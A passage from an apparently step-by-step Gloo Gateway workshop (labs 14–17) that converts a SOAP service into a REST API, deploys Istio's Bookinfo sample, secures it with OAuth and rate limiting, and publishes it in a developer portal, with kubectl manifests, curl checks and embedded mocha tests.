              setContentType: application/json
EOF
```

There are three key elements of the transformations as applied here:

1. `xslt`: This is the payload transformation, used for the request transformation and the response transformation
1. `nonXmlTransform`: This is set to `true` for requests since we are transforming JSON to XML
   Natively, XSLT can only transform XML data. However, our input to the transformation is JSON, so by specifying this flag, we signal to our XSLT transformation filter that we are supplying non-XML (JSON) data as the input.
1. The `setContentType` attribute indicates that we'll transforming the content type of the data from `application/json` to `text/xml` for requests,
   and that we'll be serving JSON in the response instead of the XML returned from the upstream service.

Now send a `curl` request to the service for the same search we carried out earlier, changing the payload from XML to JSON:

```bash,noexecute
curl -ksS https://world-cities.example.com/ -H "SOAPAction:findCity" -H "content-type:application/json" \
  -d '{"cityQuery": "south bo"}' | jq
```

You should get the following response:

```json,nocopy
{
  "matches": [
    {
      "city": "south boston",
      "country": "United States",
      "subCountry": "Massachusetts",
      "geoNameId": "4951305"
    },
    {
      "city": "south peabody",
      "country": "United States",
      "subCountry": "Massachusetts",
      "geoNameId": "4951473"
    },
    {
      "city": "south bradenton",
      "country": "United States",
      "subCountry": "Florida",
      "geoNameId": "4173392"
    },
    {
      "city": "south burlington",
      "country": "United States",
      "subCountry": "Vermont",
      "geoNameId": "5241248"
    }
  ]
}
```

You can see that the service is now accepting a JSON request, and we're also receiving a JSON payload instead of XML in the response.

However, we're not quite finished. You'll notice that we still need to pass in the `SOAPAction` via a request header, which is not very RESTful.
To make this more like a REST API, we'll add a Gateway API filter to inject that header rather than require it to be specified in the external request.
So there will be two sets of transformations applied to each request:

1. Inject the `SOAPAction` header
1. Apply the XSLT transformations for the request and response payloads from JSON to XML and vice versa.

Since a SOAP endpoint can accept multiple `SOAPAction`s, we'll also give the `findCity` action its own HTTP path, `/search`.
This will require a match for path `/search` and a rewrite back to `/` for the upstream service.

Modify the existing `HTTPRoute` to match on the `/search` path, add the new header, and rewrite the path:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: world-cities
  namespace: world-cities
spec:
  parentRefs:
  - name: http
    namespace: gloo-system
    sectionName: https
  hostnames:
  - "world-cities.example.com"
  rules:
  - backendRefs:
    - name: world-cities-soap-service
      port: 8080
    matches:
    - path:
        type: PathPrefix
        value: /search
    filters:
    - type: RequestHeaderModifier
      requestHeaderModifier:
        add:
        - name: SOAPAction
          value: findCity
    - type: URLRewrite
      urlRewrite:
        path:
          type: ReplacePrefixMatch
          replacePrefixMatch: /
EOF
```

Now make another `curl` request, but this time for the `/search` path and without the `SOAPAction` header:

```bash,noexecute
curl -ksS https://world-cities.example.com/search -H "content-type:application/json" \
  -d '{"cityQuery": "south bo"}' | jq
```

You should get the same response.

The result is that we have a proper REST API that presents a REST/JSON interface to the outside world while maintaining the upstream service in its original SOAP form.

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("World Cities service", () => {
  it('is available as REST', () => helpers.checkBody({
    host: `https://world-cities.example.com`,
    path: '/search',
    headers: [
      { key: 'Content-Type', value: "application/json" },
    ],
    method: "post",
    data: '{"cityQuery": "south bo"}',
    body: 'south boston',
    match: true,
  }));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/world-cities/expose-soap-service-as-rest/tests/world-cities-exposed-rest.test.js.liquid from lab number 14"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 14"; exit 1; }
-->


## Lab 15 - Deploy the Bookinfo sample application <a name="lab-15---deploy-the-bookinfo-sample-application-"></a>
[](https://youtu.be/nzYcrjalY5A "Video Link")

We're going to deploy the Bookinfo sample application to demonstrate several features of Gloo Gateway.

```bash
kubectl --context ${CLUSTER1} create ns bookinfo
kubectl --context ${CLUSTER1} -n bookinfo apply -f https://raw.githubusercontent.com/istio/istio/master/samples/bookinfo/platform/kube/bookinfo.yaml
```

<!--bash
kubectl --context ${CLUSTER1} -n bookinfo rollout status deploy --timeout=5m
-->

You can check that the Bookinfo pods are running using the following command:

```bash,noexecute
kubectl --context ${CLUSTER1} -n bookinfo get pods
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Bookinfo app", () => {
  let cluster = process.env.CLUSTER1
  let deployments = ["productpage-v1", "ratings-v1", "details-v1", "reviews-v1", "reviews-v3"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "bookinfo", k8sObj: deploy }));
  });
});
EOF
echo "executing test dist/document/build/templates/steps/apps/bookinfo/deploy-bookinfo/tests/check-bookinfo.test.js.liquid from lab number 15"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 15"; exit 1; }
-->
Configure your hosts file to resolve bookinfo.example.com with the IP address of the proxy by executing the following command:

```bash
./scripts/register-domain.sh bookinfo.example.com ${PROXY_IP}
```


## Lab 16 - Expose the productpage API securely <a name="lab-16---expose-the-productpage-api-securely-"></a>

Gloo Gateway includes a developer portal, which provides a framework for managing API discovery, API client identity, and API policies.

First, let's expose, secure and rate-limit the Bookinfo productpage application. Then, we'll use Gloo Gateway to automatically discover and share the API definitions and expose it in a Developer Portal.

The team in charge of the gateway can create a parent `HTTPRoute` to delegate the routing of the domain bookinfo.example.com for any call starting with `/api/bookinfo` to the team in charge of the bookinfo application.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: bookinfo
  namespace: gloo-system
spec:
  parentRefs:
    - name: http
      namespace: gloo-system
      sectionName: https
  hostnames:
    - "bookinfo.example.com"
  rules:
    # If the request path starts with /api/bookinfo
    - matches:
      - path:
          type: PathPrefix
          value: /api/bookinfo
      # Delegate routing to bookinfo namespace
      backendRefs: 
        - name: '*'
          namespace: bookinfo
          group: gateway.networking.k8s.io
          kind: HTTPRoute
EOF
```

The team in charge of the Bookinfo application can now expose the productpage API through the Gateway using a child `HTTPRoute`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: productpage-api-v1
  namespace: bookinfo
spec:
  rules:
    # If the request path starts with /api/bookinfo/v1
    - matches:
      - path:
          type: PathPrefix
          value: /api/bookinfo/v1
      # Route to the productpage service
      backendRefs:
        - name: productpage
          port: 9080
      # Rewrite the path
      filters:
        - type: URLRewrite
          urlRewrite:
            path:
              type: ReplacePrefixMatch
              replacePrefixMatch: /api/v1/products
EOF
```

You should now be able to access the API through the gateway without any authentication:

```bash,noexecute
curl -k "https://bookinfo.example.com/api/bookinfo/v1"
```

Here is the expected output:

```json,nocopy
[{"id": 0, "title": "The Comedy of Errors", "descriptionHtml": "<a href=\"https://en.wikipedia.org/wiki/The_Comedy_of_Errors\">Wikipedia Summary</a>: The Comedy of Errors is one of <b>William Shakespeare's</b> early plays. It is his shortest and one of his most farcical comedies, with a major part of the humour coming from slapstick and mistaken identity, in addition to puns and word play."}]
```


<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Access the API without authentication", () => {
  it('Checking text \'The Comedy of Errors\' in the response', () => helpersHttp.checkBody({ host: `https://bookinfo.example.com`, path: '/api/bookinfo/v1', body: 'The Comedy of Errors', match: true }));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/bookinfo/dev-portal-api/tests/access-api-no-auth.test.js.liquid from lab number 16"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 16"; exit 1; }
-->


You generally want to secure the access. This is often the responsibility of the team in charge of the gateway to handle this part.

Let's use OAuth tokens for that.

You need to create an `AuthConfig`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: enterprise.gloo.solo.io/v1
kind: AuthConfig
metadata:
  name: apis
  namespace: gloo-system
spec:
  configs:
    - oauth2:
        accessTokenValidation:
          jwt:
            remoteJwks:
              url: "${KEYCLOAK_URL}/realms/workshop/protocol/openid-connect/certs"
EOF
```

Then, you need to create a `RouteOption` which reference this `AuthConfig`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption-apis
  namespace: gloo-system
spec:
  targetRefs:
  - group: gateway.networking.k8s.io
    kind: HTTPRoute
    name: bookinfo
  options:
    # ExtAuth configuration
    extauth:
      configRef:
        name: apis
        namespace: gloo-system
    cors:
      allowCredentials: true
      allowHeaders:
      - "*"
      allowMethods:
      - GET
      allowOriginRegex:
      - ".*"
EOF
```

Note that we're configuring CORS in the `RouteOption` to allow the portal frontend to send API calls the `bookinfo` API later.

As you can see, the `RouteOption` is targetting the parent `HTTPRoute`. So it will be applied to all the APIs configured by the team in charge of the Bookinfo application.

You can't use the same option in several `RouteOption` objects applied to same route.

In case of conflict, the priority is given to:
- `ExtensionRef` in a parent `HTTPRoute`
- `ExtensionRef` in the child `HTTPRoute`
- `TargetRef` is the lowest priority

Try to access the API without authentication:

```bash,noexecute
curl -k "https://bookinfo.example.com/api/bookinfo/v1" -I
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Access to API unauthorized", () => {
  it('Response code is 403', () => helpers.checkURL({ host: `https://bookinfo.example.com`, path: '/api/bookinfo/v1', retCode: 403 }));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/bookinfo/dev-portal-api/tests/access-api-unauthorized.test.js.liquid from lab number 16"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 16"; exit 1; }
-->

The access is refused (403 response):

```http,nocopy
HTTP/2 403
date: Thu, 25 Apr 2024 09:16:18 GMT
server: envoy
```

Let's create a token for the user `user1`:

```bash
export USER1_TOKEN=$(curl -Ssm 10 --fail-with-body \
  -d "client_id=${KEYCLOAK_CLIENT}" \
  -d "client_secret=${KEYCLOAK_SECRET}" \
  -d "username=user1" \
  -d "password=password" \
  -d "grant_type=password" \
  "$KEYCLOAK_URL/realms/workshop/protocol/openid-connect/token" |
  jq -r .access_token)

echo export KEYCLOAK_CLIENT=${KEYCLOAK_CLIENT}
echo export KEYCLOAK_SECRET=${KEYCLOAK_SECRET}
echo export KEYCLOAK_URL=${KEYCLOAK_URL}
echo export USER1_TOKEN=${USER1_TOKEN}
```

Now, you should be able to access the API using this token:

```bash,noexecute
curl -k -H "Authorization: Bearer $USER1_TOKEN" "https://bookinfo.example.com/api/bookinfo/v1"
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Access to API authorized", () => {
  it('Response code is 200', () => helpers.checkURL({ host: `https://bookinfo.example.com`, path: '/api/bookinfo/v1', headers: [{key: 'Authorization', value: 'Bearer ' + process.env.USER1_TOKEN}], retCode: 200 }));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/bookinfo/dev-portal-api/tests/access-api-authorized.test.js.liquid from lab number 16"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 16"; exit 1; }
-->

So, we've secured the access to our API, but you generally want to also limit the usage of your API.

We're going to configure rate limiting.

We need to create a `RateLimitConfig` object to define the limits:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: ratelimit.solo.io/v1alpha1
kind: RateLimitConfig
metadata:
  name: limit-apis
  namespace: gloo-system
spec:
  raw:
    setDescriptors:
      - simpleDescriptors:
          - key: userId
        rateLimit:
          requestsPerUnit: 5
          unit: MINUTE
    rateLimits:
      - setActions:
        - metadata:
            descriptorKey: userId
            metadataKey:
              key: envoy.filters.http.ext_authz
              path:
                - key: userId
EOF
```

It defines the limits for each user.

After that, we need to update the `RouteOption` to use the `RateLimitConfig`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption-apis
  namespace: gloo-system
spec:
  targetRefs:
  - group: gateway.networking.k8s.io
    kind: HTTPRoute
    name: bookinfo
  options:
    # ExtAuth configuration
    extauth:
      configRef:
        name: apis
        namespace: gloo-system
    cors:
      allowCredentials: true
      allowHeaders:
      - "*"
      allowMethods:
      - GET
      allowOriginRegex:
      - ".*"
    # Rate limit configuration
    rateLimitConfigs:
      refs:
      - name: limit-apis
        namespace: gloo-system
EOF
```

Try to access the API more than 5 times:

```bash,noexecute
for i in `seq 1 10`; do curl -k -H "Authorization: Bearer $USER1_TOKEN" "https://bookinfo.example.com/api/bookinfo/v1" -I; done
```

You should be rate limited:

```http,nocopy
HTTP/2 200
content-type: application/json
content-length: 395
server: istio-envoy
date: Thu, 25 Apr 2024 09:17:10 GMT
x-envoy-upstream-service-time: 1

...

HTTP/2 429
x-envoy-ratelimited: true
date: Thu, 25 Apr 2024 09:17:18 GMT
server: istio-envoy
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Access to API rate limited", () => {
  it('Response code is 429', () => helpers.checkURL({ host: `https://bookinfo.example.com`, path: '/api/bookinfo/v1', headers: [{key: 'Authorization', value: 'Bearer ' + process.env.USER1_TOKEN}], retCode: 429 }));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/bookinfo/dev-portal-api/tests/access-api-rate-limited.test.js.liquid from lab number 16"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 16"; exit 1; }
-->

Next, let's tell Gloo about this API. Annotate the Bookinfo's `productpage` Service with information about it's OpenAPI schema. This allows Gloo to discover this APIs schema:

```bash
kubectl --context ${CLUSTER1} -n bookinfo annotate service productpage gloo.solo.io/scrape-openapi-source=https://raw.githubusercontent.com/istio/istio/master/samples/bookinfo/swagger.yaml --overwrite
kubectl --context ${CLUSTER1} -n bookinfo annotate service productpage gloo.solo.io/scrape-openapi-pull-attempts="3" --overwrite
kubectl --context ${CLUSTER1} -n bookinfo annotate service productpage gloo.solo.io/scrape-openapi-retry-delay=5s --overwrite
kubectl --context ${CLUSTER1} -n bookinfo annotate service productpage gloo.solo.io/scrape-openapi-use-backoff="true" --overwrite
```

<!--bash
echo Waiting for APIDoc to be created...
timeout -v 5m bash -c "until [[ \$(kubectl --context ${CLUSTER1} -n bookinfo get apidoc productpage-service) ]]; do
  kubectl --context ${CLUSTER1} -n bookinfo rollout restart deploy productpage-v1
  kubectl --context ${CLUSTER1} -n bookinfo rollout status deploy productpage-v1
  sleep 1
done"
-->

An `APIDoc` Kubernetes object, containing the schema of the API is automatically created:

```bash,noexecute
kubectl --context ${CLUSTER1} -n bookinfo get apidoc productpage-service -o yaml
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("APIDoc has been created", () => {
    it('APIDoc is present', () => helpers.k8sObjectIsPresent({ context: process.env.CLUSTER1, namespace: "bookinfo", k8sType: "apidoc", k8sObj: "productpage-service" }));
});
EOF
echo "executing test dist/document/build/templates/steps/apps/bookinfo/dev-portal-api/tests/apidoc-created.test.js.liquid from lab number 16"
timeout --signal=INT 5m mocha ./test.js --timeout 10000 --retries=300 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 16"; exit 1; }
-->

You should get something like this:

```yaml,nocopy
apiVersion: portal.gloo.solo.io/v1
kind: ApiDoc
metadata:
  creationTimestamp: "2024-04-23T15:57:44Z"
  generation: 1
  labels:
    reconciler.mesh.gloo.solo.io/name: schema-reporter-service
  name: productpage-service
  namespace: bookinfo
  resourceVersion: "2098"
  uid: 8c82fabc-cf4d-4894-806b-ac47ba9648b7
spec:
  openapi:
    inlineString: |-
      {"components":{"schemas":{"Product":{"description":"Basic information
      about a product","properties":{"descriptionHtml":{"description":"Description
      of the book - may contain HTML tags","type":"string"},"id":{"description":"Product
      id","format":"int32","type":"integer"},"title":{"description":"Title of the
      book","type":"string"}},"required":["id","title","descriptionHtml"],"type":"object"},"ProductDetails":{"description":"Detailed
      information about a product","properties":{"ISBN-10":{"description":"ISBN-10
      of the book","type":"string"},"ISBN-13":{"description":"ISBN-13 of the book","type":"string"},"author":{"description":"Author
      of the book","type":"string"},"id":{"description":"Product id","format":"int32","type":"integer"},"language":{"description":"Language
      of the book","type":"string"},"pages":{"description":"Number of pages of the
      book","format":"int32","type":"integer"},"publisher":{"description":"Publisher
      of the book","type":"string"},"type":{"description":"Type of the book","enum":["paperback","hardcover"],"type":"string"},"year":{"description":"Year
      the book was first published in","format":"int32","type":"integer"}},"required":["id","publisher","language","author","ISBN-10","ISBN-13","year","type","pages"],"type":"object"},"ProductRatings":{"description":"Object
      containing ratings of a product","properties":{"id":{"description":"Product
      id","format":"int32","type":"integer"},"ratings":{"additionalProperties":{"type":"string"},"description":"A
      hashmap where keys are reviewer names, values are number of stars","type":"object"}},"required":["id","ratings"],"type":"object"},"ProductReviews":{"description":"Object
      containing reviews for a product","properties":{"id":{"description":"Product
      id","format":"int32","type":"integer"},"reviews":{"description":"List of reviews","items":{"$ref":"#/components/schemas/Review"},"type":"array"}},"required":["id","reviews"],"type":"object"},"Rating":{"description":"Rating
      of a product","properties":{"color":{"description":"Color in which stars should
      be displayed","enum":["red","black"],"type":"string"},"stars":{"description":"Number
      of stars","format":"int32","maximum":5,"minimum":1,"type":"integer"}},"required":["stars","color"],"type":"object"},"Review":{"description":"Review
      of a product","properties":{"rating":{"$ref":"#/components/schemas/Rating"},"reviewer":{"description":"Name
      of the reviewer","type":"string"},"text":{"description":"Review text","type":"string"}},"required":["reviewer","text"],"type":"object"}}},"externalDocs":{"description":"Learn
      more about the Istio BookInfo application","url":"https://istio.io/docs/samples/bookinfo.html"},"info":{"description":"This
      is the API of the Istio BookInfo sample application.","license":{"name":"Apache
      2.0","url":"http://www.apache.org/licenses/LICENSE-2.0.html"},"termsOfService":"https://istio.io/","title":"BookInfo
      API","version":"1.0.0"},"openapi":"3.0.3","paths":{"/products":{"get":{"description":"List
      all products available in the application with a minimum amount of information.","operationId":"getProducts","responses":{"200":{"content":{"application/json":{"schema":{"items":{"$ref":"#/components/schemas/Product"},"type":"array"}}},"description":"successful
      operation"}},"summary":"List all products","tags":["product"]}},"/products/{id}":{"get":{"description":"Get
      detailed information about an individual product with the given id.","operationId":"getProduct","parameters":[{"description":"Product
      id","in":"path","name":"id","required":true,"schema":{"format":"int32","type":"integer"}}],"responses":{"200":{"content":{"application/json":{"schema":{"$ref":"#/components/schemas/ProductDetails"}}},"description":"successful
      operation"},"400":{"description":"Invalid product id"}},"summary":"Get individual
      product","tags":["product"]}},"/products/{id}/ratings":{"get":{"description":"Get
      ratings for a product, including stars and their color.","operationId":"getProductRatings","parameters":[{"description":"Product
      id","in":"path","name":"id","required":true,"schema":{"format":"int32","type":"integer"}}],"responses":{"200":{"content":{"application/json":{"schema":{"$ref":"#/components/schemas/ProductRatings"}}},"description":"successful
      operation"},"400":{"description":"Invalid product id"}},"summary":"Get ratings
      for a product","tags":["rating"]}},"/products/{id}/reviews":{"get":{"description":"Get
      reviews for a product, including review text and possibly ratings information.","operationId":"getProductReviews","parameters":[{"description":"Product
      id","in":"path","name":"id","required":true,"schema":{"format":"int32","type":"integer"}}],"responses":{"200":{"content":{"application/json":{"schema":{"$ref":"#/components/schemas/ProductReviews"}}},"description":"successful
      operation"},"400":{"description":"Invalid product id"}},"summary":"Get reviews
      for a product","tags":["review"]}}},"servers":[{"url":"/api/v1"}],"tags":[{"description":"Information
      about a product (in this case a book)","name":"product"},{"description":"Review
      information for a product","name":"review"},{"description":"Rating information
      for a product","name":"rating"}]}'
  servedBy:
  - port: 9080
    targetRef:
      kind: Service
      name: productpage
      namespace: bookinfo
```

Note that you can also create the `APIDoc` objects manually to allow you to provide the OpenAPI document as code.

Then, we need to create an `ApiProduct` object (a bundle of APIs) targetting the `HTTPRoute`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: portal.gloo.solo.io/v1
kind: ApiProduct
metadata:
  name: bookinfo-api
  namespace: bookinfo
spec:
  id: bookinfo
  displayName: BookInfo REST API
  customMetadata:
    imageURL: https://raw.githubusercontent.com/solo-io/workshops/master/images/bookinfo.jpg
  versions:
    - apiVersion: v1
      targetRefs:
      - group: gateway.networking.k8s.io
        kind: HTTPRoute
        name: productpage-api-v1
        namespace: bookinfo
      openapiMetadata:
        title: BookInfo REST API v1
        description: |
          # Bookinfo REST API v1 Documentation
          This is some extra information about the API
      customMetadata:
        lifecyclePhase: General Availability
EOF
```

We define a single version `v1` and use the version custom metadata to define the lifecycle of it.

As you can see, we can also define custom metadata at the Api product level. We use this capability to define the picture we want to use to represent the ApiProduct in the portal.

After that, we need to create a `Portal` object to define which API products are going to be exposed.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: portal.gloo.solo.io/v1
kind: Portal
metadata:
  name: portal
  namespace: gloo-system
spec:
  # APIs will be accessible to unauthenticated users
  visibility:
    public: true
  # List of API products to be included in the portal
  apiProducts:
    - namespace: bookinfo
EOF
```

Finally, we need to create a `ReferenceGrant` object to allow the `Portal` object in the `gloo-system` namespace to access the `ApiProduct` objects in the `bookinfo` namespace.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1beta1
kind: ReferenceGrant
metadata:
  name: allow-portal-to-access-apiproduct
  namespace: bookinfo
spec:
  # Allow the portal server to reference APIProducts in other namespaces
  from:
    - group: portal.gloo.solo.io
      kind: Portal
      namespace: gloo-system
  to:
    - group: portal.gloo.solo.io
      kind: ApiProduct
EOF
```

Let's delete the `RateLimitConfig` object:

```bash
kubectl --context ${CLUSTER1} -n gloo-system delete ratelimitconfig limit-apis
```

And apply the original `RouteOption`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption-apis
  namespace: gloo-system
spec:
  targetRefs:
  - group: gateway.networking.k8s.io
    kind: HTTPRoute
    name: bookinfo
  options:
    # ExtAuth configuration
    extauth:
      configRef:
        name: apis
        namespace: gloo-system
    cors:
      allowCredentials: true
      allowHeaders:
      - "*"
      allowMethods:
      - GET
      allowOriginRegex:
      - ".*"
EOF
```


## Lab 17 - Expose an external API and stitch it with the productpage API <a name="lab-17---expose-an-external-api-and-stitch-it-with-the-productpage-api-"></a>

You can also use Gloo Gateway to expose an API that is outside of the cluster. In this section, we will expose `https://openlibrary.org/search.json`

In our case, we're simulating the real API using `https://static.is.solo.io` (due to recent outages they had).

Let's create an `Upstream` object to define how to access the host [static.is.solo.io](https://static.is.solo.io/):

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gloo.solo.io/v1
kind: Upstream
metadata:
  name: openlibrary
  namespace: bookinfo
spec:
  static:
    hosts:
      - addr: static.is.solo.io
        port: 443
  sslConfig: {}
EOF
```

Then, you need to create an `ApiSchemaDiscovery` object to tell Gloo Gateway how to fetch it's OpenAPI document:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: portal.gloo.solo.io/v1
kind: ApiSchemaDiscovery
metadata:
  name: openlibrary
  namespace: bookinfo
spec:
  # Fetch the OpenAPI schema from the Open Library API
  openapi:
    fetchEndpoint:
      url: "https://raw.githubusercontent.com/internetarchive/openlibrary/refs/heads/master/static/openapi.json"
  servedBy:
  - targetRef:
      kind: UPSTREAM
      name: openlibrary
      namespace: bookinfo
    port: 443
EOF
```

An `APIDoc` Kubernetes object should be automatically created:

```bash,noexecute
kubectl --context ${CLUSTER1} -n bookinfo get apidoc openlibrary -o yaml
```

<!--
Finally, you can create a new `HTTPRoute` to stitch together 2 paths from the openlibrary API with the existing Bookinfo API:
-->
Finally, you can create a new `HTTPRoute` to stitch together a path from the openlibrary API with the existing Bookinfo API:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: productpage-api-v2
  namespace: bookinfo
  annotations:
    delegation.gateway.solo.io/inherit-parent-matcher: "true"
spec:
  rules:
    # If the request path starts with /v2/search.json
    # Rewrite to /search.json and route to the openlibrary upstream
    - matches:
      - path:
          type: PathPrefix
          value: /v2/search.json
      backendRefs:
        - group: gloo.solo.io
          kind: Upstream
          name: openlibrary
          port: 443
      filters:
        - type: URLRewrite
          urlRewrite:
            hostname: static.is.solo.io
            path:
              type: ReplacePrefixMatch
              replacePrefixMatch: /search.json
    # If the request path starts with /v2/authors/{author}.json
    # Apply regex rewrite and route to the openlibrary upstream
    - matches:
      - path:
          type: RegularExpression
          value: /v2/authors/([^.]+).json
      backendRefs:
        - group: gloo.solo.io
          kind: Upstream
          name: openlibrary
          port: 443
      filters:
        - type: URLRewrite
          urlRewrite:
            hostname: static.is.solo.io
        - type: ExtensionRef
          extensionRef:
            group: gateway.solo.io
            kind: RouteOption
            name: regex-rewrite
    # If the request path starts with /v2
    # Rewrite to /api/v1/products and route to the productpage service
    - matches:
      - path:
          type: PathPrefix
          value: /v2
      backendRefs:
        - name: productpage
          port: 9080
      filters:
        - type: URLRewrite
          urlRewrite:
            path:
              type: ReplacePrefixMatch
              replacePrefixMatch: /api/v1/products
EOF
```

Note we've added the annotation `delegation.gateway.solo.io/inherit-parent-matcher: "true"` to inherit the matcher from the parent `HTTPRoute`. This means that we do not need to specify the prefix `/api/bookinfo` in the path matchers.

This time, we've used the `ExtensionRef` to select a `RouteOption` to perform a regex rewrite operation.

Let's create this `RouteOption`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: regex-rewrite
  namespace: bookinfo
spec:
  options:
    regexRewrite:
      # rewrite /api/bookinfo/v2/authors/{author}.json to /authors/{author}.json
      pattern:
        regex: /api/bookinfo/v2/authors/([^.]+).json
      substitution: /authors/\1.json
EOF
```

You can check the first path (/v2/search.json going to static.is.solo.io/search.json) is available:

```bash,noexecute
curl -k -H "Authorization: Bearer ${USER1_TOKEN}" "https://bookinfo.example.com/api/bookinfo/v2/search.json?title=The%20Comedy%20of%20Errors&fields=language&limit=1"
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Access the openlibrary API", () => {
  it('Checking text \'language\' in the response', () => helpersHttp.checkBody({ host: `https://bookinfo.example.com`, path: '/api/bookinfo/v2/search.json?title=The%20Comedy%20of%20Errors&fields=language&limit=1', headers: [{key: 'Authorization', value: 'Bearer ' + process.env.USER1_TOKEN}], body: 'language', match: true }));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/bookinfo/dev-portal-stitching/tests/access-openlibrary-api.test.js.liquid from lab number 17"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 17"; exit 1; }
-->

You should see something like this:

```json,nocopy
{
    "numFound": 202,
    "start": 0,
    "numFoundExact": true,
    "docs": [
        {
            "language": [
                "ger",
                "und",
                "eng",
                "tur",
                "ita",
                "fre",
                "tsw",
                "heb",
                "spa",
                "nor",
                "slo",
                "chi",
                "mul",
                "esp",
                "dut",
                "fin"
            ]
        }
    ],
    "num_found": 202,
    "q": "",
    "offset": null
}
```

We've also exposed the `/authors/{olid}.json` path to demonstrate how we can use regular expressions to capture path parameters.

You can try it out with the following command:

```bash,noexecute
curl -k -H "Authorization: Bearer ${USER1_TOKEN}" "https://bookinfo.example.com/api/bookinfo/v2/authors/OL23919A.json"
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Access the openlibrary API with regex", () => {
  it('Checking text \'Rowling\' in the response', () => helpersHttp.checkBody({ host: `https://bookinfo.example.com`, path: '/api/bookinfo/v2/authors/OL23919A.json', headers: [{key: 'Authorization', value: 'Bearer ' + process.env.USER1_TOKEN}], body: 'Rowling', match: true }));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/bookinfo/dev-portal-stitching/tests/access-openlibrary-api-regex.test.js.liquid from lab number 17"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 17"; exit 1; }
-->

We also need to update the `ApiProduct` object to define a new version targetting the new HTTPRoute:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: portal.gloo.solo.io/v1
kind: ApiProduct
metadata:
  name: bookinfo-api
  namespace: bookinfo
spec:
  id: bookinfo
  displayName: BookInfo REST API
  customMetadata:
    imageURL: https://raw.githubusercontent.com/solo-io/workshops/master/images/bookinfo.jpg
  versions:
    - apiVersion: v1
      targetRefs:
      - group: gateway.networking.k8s.io
        kind: HTTPRoute
        name: productpage-api-v1
        namespace: bookinfo
      openapiMetadata:
        title: BookInfo REST API v1
        description: |
          # Bookinfo REST API v1 Documentation
          This is some extra information about the API
      customMetadata:
        lifecyclePhase: Deprecated
    - apiVersion: v2
      targetRefs:
      - group: gateway.networking.k8s.io
        kind: HTTPRoute
        name: productpage-api-v2
        namespace: bookinfo
      openapiMetadata:
        title: BookInfo REST API v2
        description: |
          # Bookinfo REST API v1 Documentation
          You can find more information about the openlibrary API [here](https://openlibrary.org/developers/api)
      customMetadata:
        lifecyclePhase: General Availability
EOF
```


